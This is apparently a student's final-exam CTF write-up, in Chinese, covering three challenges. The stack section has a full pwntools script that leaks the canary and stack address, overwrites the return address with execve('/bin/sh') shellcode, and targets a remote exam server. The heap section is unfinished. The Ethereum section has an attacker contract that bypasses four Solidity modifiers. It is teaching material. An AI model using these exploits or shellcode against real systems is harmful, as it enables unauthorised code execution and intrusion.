



# Final: 期末测试

## Stack Final

​	首先，利用GDB查看栈结构。从中可以看出`buffer`在`0x7ffffffe310`位置，而`return_addr`即main函数地址位于`0x7ffffffe338`位置。那么可以知道`0x7ffffffe330`位置为rbp指针，`0x7ffffffe328`位置为Canary。



​	程序中一共有三次循环。可以利用三次循环分别获取Canary、栈地址以及完成ret2shellcode。

​	在第一次循环中，填充25个A（由于Canary的最低位为0，在泄露Canary为了防止字符串被截断，需要先覆盖最后一位，然后再补上`b'0'`），然后利用`printf`函数直接指出Canary的前7位，补上0字符便得到了Canary。

​	在第二次循环中，填充32个A，然后截取A后的6位并补上两个`b'0'`（此处栈地址前两位通常为0），就得到了rbp指针，在GDB中显示rbp指针直接指向`return_addr`所在地址的高一位地址，那么无需偏移。

​	在第三次循环中，构造payload。首先将Canary前的部分填充掉，然后加上Canary，覆盖原rbp，然后把`return_addr`覆盖为rbp再加上shellcode。此时`return_addr`指向了shellcode所在的地址，函数返回时会调用shellcode，执行`system("/bin/sh")`，完成攻击。

```python
from pwn import *
context.log_level = 'DEBUG'
# p=process('./stackload')
p=remote('8.154.20.109', 10601)
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
p.recvuntil(b'data:\n')
p.send(b'A'*25)
p.recvuntil(b'Buffer content:')
line=p.recv(0x30)
Canary=b'\0'+line[25:32] #此处泄露Canary
print(Canary)
p.recvuntil(b'data:\n')
p.send(b'A'*32)
p.recvuntil(b'Buffer content:')
rbp=p.recv(40)[32:38]+b'\0'*2 #此处泄露栈地址
rbp_int=u64(rbp)
print(hex(rbp_int))
shellcode = b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
p.recvuntil(b'data:\n')
payload=b'A'*24+Canary+b'A'*8+rbp+shellcode
print(payload)
p.send(payload)
p.recvuntil(b'Buffer content:')
p.interactive()
```

 


## Heap Final

(该模块未完成)

​	在堆初始化的内存分配过程中，调用`mmap`函数来获取堆内存空间。调用时`prot`参数传入了7即二进制111，代表可读可写可执行。这样操作说明堆存在可执行的漏洞。

```C
void *tiny_init()
{
  void *result; // rax

  tiny_heap_base = mmap((void *)0x10000, 0x4000uLL, 7, 50, -1, 0LL);
  result = tiny_heap_base;
  if ( tiny_heap_base == (void *)-1LL )
  {
    puts("tiny heap initialization fail");
    exit(-1);
  }
  return result;
```


## Ethereum Final

题目中设定了4个modifier，绕过所有modifier之后会触发`SendFlag()`。

#### mod1

​	对于第一个modifier，只需满足`msg.sender!=tx.origin`即可。其中`msg.sender`为调用这个合约的地址，`tx.origin`为建立整个合约的地址。因此只需建立一个新的合约，利用合约来调用`Final`合约即可满足两者不同，绕过modifier1。

#### mod2

​	对于第二个modifier，需要满足`extcodesize(caller())==0`。其中`extcodesize()`用于获取与指定地址相关联的合约代码的大小。但是在这里可以利用一个漏洞，在构造函数完成之前，新部署的合约地址上实际没有任何字节码存在，因此在构造函数中调用`Final`合约即可达到`extcodesize(caller())==0`的条件，绕过modifier2。

#### mod3

​	对于第三个modifier，需要满足`uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_key) == uint64(0) - 1`，即`uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))`和`uint64(_key)`互为反码。因此只需构造`key=~uint64(bytes8(keccak256(abi.encodePacked(sender))))`即可绕过modifier3。

#### mod4

​	对于第四个modifier，需要满足`target == guess`。根据代码中分析，需要构造`target = keccak256(abi.encodePacked(entropy1 ^ entropy2 ^ entropy3))`。其中:

- `entropy1`为`blockhash(block.number)`,`block.number`为当前区块的编号，在整个合约调用过程中不变，直接调用即可。
- `entropy2`为`keccak256(abi.encodePacked(msg.sender))`，在攻击代码中调用`address(this)`即可获取。
- `entropy3`为`keccak256(abi.encodePacked(tx.origin))`，只和最初构建合约的用户有关，直接调用即可。

​	将这3个`entropy`进行异或，得到`guess`传输给`Final`合约即可绕过modifier4。至此，4个modifier全部绕过，完成攻击。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

//题目代码
contract Final {
    event SendFlag();

    modifier mod1() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier mod2() {
        uint x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier mod3(bytes8 _key) {
        unchecked {
            require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_key) == uint64(0) - 1);
        }
        _;
    }

    modifier mod4(uint256 _guess) {
        bytes32 entropy1 = blockhash(block.number);
        bytes32 entropy2 = keccak256(abi.encodePacked(msg.sender));
        bytes32 entropy3 = keccak256(abi.encodePacked(tx.origin));
        bytes32 target = keccak256(abi.encodePacked(entropy1 ^ entropy2 ^ entropy3));
        bytes32 guess = keccak256(abi.encodePacked(_guess));
        require(target == guess);
        _;
    }

    function play(bytes8 key, uint256 guess) public mod1 mod2 mod3(key) mod4(guess) returns (bool) {
        emit SendFlag();
        return true;
    }
}

//攻击代码
contract Attacker {
    address public finalContract; 

    constructor(address _finalContract) {
        finalContract = _finalContract;

        bytes8 key = calculateKey(address(this));
        uint guess = calculateGuess(address(this));
        (bool success, ) = finalContract.call(
            abi.encodeWithSignature("play(bytes8,uint256)", key,guess)
        );
        require(success, "Attack failed");
    }
	//计算mod3所用的key
    function calculateKey(address sender) public pure returns (bytes8) {
        uint64 key = uint64(bytes8(keccak256(abi.encodePacked(sender))));
        return bytes8(~key);
    }
	//计算mod4所用的guess
    function calculateGuess(address sender) public view returns(uint256){
        bytes32 entropy1=blockhash(block.number);
        bytes32 entropy2=keccak256(abi.encodePacked(sender));
        bytes32 entropy3=keccak256(abi.encodePacked(tx.origin));
        return uint256(entropy1 ^ entropy2 ^ entropy3);
    }
}
```



```
target contract address: 0x
```

